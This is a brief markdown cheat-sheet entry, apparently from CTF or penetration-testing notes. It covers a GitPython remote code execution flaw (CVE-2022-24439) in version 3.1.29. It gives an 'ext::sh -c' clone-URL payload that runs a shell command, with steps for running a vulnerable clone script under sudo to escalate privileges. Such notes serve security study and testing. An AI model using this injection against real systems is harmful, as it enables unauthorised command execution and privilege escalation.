 # Git Python RCE CVE-2022-24439.md

### Vulnerable Library version: 3.1.29

### Payload: <gitpython::clone> 'ext::sh -c touch% /tmp/pwned'

### Enumeration:

 - 1) pip3 list (Check for all python libraries and dependencies installed on the machine)
  
 - 2) If the Git Python library we found is vulnerable, we can execute the corresponding python program with the payload to RCE
  
 - 3) sudo /us r/bin/python3 /path/to/gitclone.py 'ext::sh -c touch% /tmp/pwned'

